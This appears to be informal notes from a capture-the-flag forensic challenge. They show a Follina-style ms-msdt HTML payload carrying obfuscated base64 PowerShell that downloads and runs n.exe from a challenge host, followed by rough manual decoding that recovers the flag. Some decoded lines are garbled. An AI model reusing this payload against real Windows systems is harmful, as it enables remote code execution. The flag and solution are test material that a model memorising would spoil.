


Diagnostic(forensic challege)
{kind=link}
{kind=link}
{kind=link}
http://diagnostic.htb:32213/223_index_style_fancy.html!
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke->
</script><script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //Tm93IGZvciBhIGNoZWVyIHRoZXkgYXJlIGhlcmUsCnRyaXVtcGhhbnQhCkhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcsCkluIHN0YWx3YXJ0IHN0ZXAgdGhleSdyZSBuaWdoaW5nLApXaXRoIHNob3V0cyBvZiB2aWN0J3J5IGNyeWluZywKV2UgaHVycmFoLCBodXJyYWgsIHdlIGdyZWV0IHlvdSBub3csCkhhaWwhCgpGYXIgd2UgdGhlaXIgcHJhaXNlcyBzaW5nCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkZhciB3ZSB0aGVpciBwcmFpc2VzIHRlbGwKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKSGVyZSB0aGV5IGNvbWUsIEh1cnJhaCEKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuCnRoZSBsZWFkZXJzIGFuZCBiZXN0CkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQoKV2UgY2hlZXIgdGhlbSBhZ2FpbgpXZSBjaGVlciBhbmQgY2hlZXIgYWdhaW4KRm9yIE1pY2hpZ2FuLCB3ZSBjaGVlciBmb3IgTWljaGlnYW4KV2UgY2hlZXIgd2l0aCBtaWdodCBhbmQgbWFpbgpXZSBjaGVlciwgY2hlZXIsIGNoZWVyCldpdGggbWlnaHQgYW5kIG1haW4gd2UgY2hlZXIhCgoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3Qh Ck5vdyBmb3IgYSBjaGVlciB0aGV5IGFyZSBoZXJlLAp0cml1bXBoYW50IQpIZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nLApJbiBzdGFsd2FydCBzdGVwIHRoZXkncmUgbmlnaGluZywKV2l0aCBzaG91dHMgb2YgdmljdCdyeSBjcnlpbmcsCldlIGh1cnJhaCwgaHVycmFoLCB3ZSBncmVldCB5b3Ugbm93LApIYWlsIQoKRmFyIHdlIHRoZWlyIHByYWlzZXMgc2luZwpGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpGYXIgd2UgdGhlaXIgcHJhaXNlcyB0ZWxsCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkhlcmUgdGhleSBjb21lLCBIdXJyYWghCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbgp0aGUgbGVhZGVycyBhbmQgYmVzdApIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCEKCldlIGNoZWVyIHRoZW0gYWdhaW4KV2UgY2hlZXIgYW5kIGNoZWVyIGFnYWluCkZvciBNaWNoaWdhbiwgd2UgY2hlZXIgZm9yIE1pY2hpZ2FuCldlIGNoZWVyIHdpdGggbWlnaHQgYW5kIG1haW4KV2UgY2hlZXIsIGNoZWVyLCBjaGVlcgpXaXRoIG1pZ2h0IGFuZCBtYWluIHdlIGNoZWVyIQoKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQ== CgpOb3cgZm9yIGEgY2hlZXIgdGhleSBhcmUgaGVyZSwKdHJpdW1waGFudCEKSGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZywKSW4gc3RhbHdhcnQgc3RlcCB0aGV5J3JlIG5pZ2hpbmcsCldpdGggc2hvdXRzIG9mIHZpY3QncnkgY3J5aW5nLApXZSBodXJyYWgsIGh1cnJhaCwgd2UgZ3JlZXQgeW91IG5vdywKSGFpbCEKCkZhciB3ZSB0aGVpciBwcmFpc2VzIHNpbmcKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKRmFyIHdlIHRoZWlyIHByYWlzZXMgdGVsbApGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpIZXJlIHRoZXkgY29tZSwgSHVycmFoIQoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4KdGhlIGxlYWRlcnMgYW5kIGJlc3QKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3QhCgpXZSBjaGVlciB0aGVtIGFnYWluCldlIGNoZWVyIGFuZCBjaGVlciBhZ2FpbgpGb3IgTWljaGlnYW4sIHdlIGNoZWVyIGZvciBNaWNoaWdhbgpXZSBjaGVlciB3aXRoIG1pZ2h0IGFuZCBtYWluCldlIGNoZWVyLCBjaGVlciwgY2hlZXIKV2l0aCBtaWdodCBhbmQgbWFpbiB3ZSBjaGVlciEKCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCE= SGFyayB0aGUgc291bmQgb2YgVGFyIEhlZWwgdm9pY2VzClJpbmdpbmcgY2xlYXIgYW5kIFRydWUKU2luZ2luZyBDYXJvbGluYSdzIHByYWlzZXMKU2hvdXRpbmcgTi5DLlUuCgpIYWlsIHRvIHRoZSBicmlnaHRlc3QgU3RhciBvZiBhbGwKQ2xlYXIgaXRzIHJhZGlhbmNlIHNoaW5lCkNhcm9saW5hIHByaWNlbGVzcyBnZW0sClJlY2VpdmUgYWxsIHByYWlzZXMgdGhpbmUuCgpOZWF0aCB0aGUgb2FrcyB0aHkgc29ucyBhbmQgZGF1Z2h0ZXJzCkhvbWFnZSBwYXkgdG8gdGhlZQpUaW1lIHdvcm4gd2FsbHMgZ2l2ZSBiYWNrIHRoZWlyIGVjaG8KSGFpbCB0byBVLk4uQy4KClRob3VnaCB0aGUgc3Rvcm1zIG9mIGxpZmUgYXNzYWlsIHVzClN0aWxsIG91ciBoZWFydHMgYmVhdCB0cnVlCk5hdWdodCBjYW4gYnJlYWsgdGhlIGZyaWVuZHNoaXBzIGZvcm1lZCBhdApEZWFyIG9sZCBOLkMuVS4= CkhhcmsgdGhlIHNvdW5kIG9mIFRhciBIZWVsIHZvaWNlcwpSaW5naW5nIGNsZWFyIGFuZCBUcnVlClNpbmdpbmcgQ2Fyb2xpbmEncyBwcmFpc2VzClNob3V0aW5nIE4uQy5VLgoKSGFpbCB0byB0aGUgYnJpZ2h0ZXN0IFN0YXIgb2YgYWxsCkNsZWFyIGl0cyByYWRpYW5jZSBzaGluZQpDYXJvbGluYSBwcmljZWxlc3MgZ2VtLApSZWNlaXZlIGFsbCBwcmFpc2VzIHRoaW5lLgoKTmVhdGggdGhlIG9ha3MgdGh5IHNvbnMgYW5kIGRhdWdodGVycwpIb21hZ2UgcGF5IHRvIHRoZWUKVGltZSB3b3JuIHdhbGxzIGdpdmUgYmFjayB0aGVpciBlY2hvCkhhaWwgdG8gVS5OLkMuCgpUaG91Z2ggdGhlIHN0b3JtcyBvZiBsaWZlIGFzc2FpbCB1cwpTdGlsbCBvdXIgaGVhcnRzIGJlYXQgdHJ1ZQpOYXVnaHQgY2FuIGJyZWFrIHRoZSBmcmllbmRzaGlwcyBmb3JtZWQgYXQKRGVhciBvbGQgTi5DLlUu</script>{kind=link}
{kind=link}
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F')) -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //{kind=link}
GitHub - R3MRUM/PSDecode: PowerShell script for deobfuscating encoded PowerShell scripts
PowerShell script for deobfuscating encoded PowerShell scripts - R3MRUM/PSDecode

wasnt working.
some manual decoding
Character code list for Excel CHAR function (on a PC) - excelbuzz.com - Awesome Tips and Tricks
The CHAR function returns a character specified by the code number from the character set for your computer.
https://www.excelbuzz.com/character-list-for-char-function/

got part of the flag
{kind=link}
{kind=link}
copy paste of some other<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'::'UTF8.GetString([System.Convert]'::'FromBase64String('"'${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F')) -CReplAce'kzH',$ -CReplAce(L9F),\)'"'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
0 1 2 3 4 5 6 7 8HTEtoC0l_h4nDl3sr3Ms_b4DB{msDt_4s_A_pr0B{msHTB{msDt_4s_A_pr0 toC 0l_h4nDl3 Er...s'B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
1 2 3 4 5 6 7 8
HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps')
[https://automation.diagnostic.htb/2/n.exe](https://automation.diagnostic.htb/2/n.exe)<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'::'UTF8.GetString([System.Convert]'::'FromBase64String("${file} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe', HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D)
& Invoke-WebRequest [https://automation.diagnostic.htb/2/n.exe](https://automation.diagnostic.htb/2/n.exe) -OutFile C:\Windows\Tasks\$file & C:WindowsTasksfile'"'))'))))
i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'
0 1 2 3 4 5 6 7 8C:WindowsTasksfile{kind=link}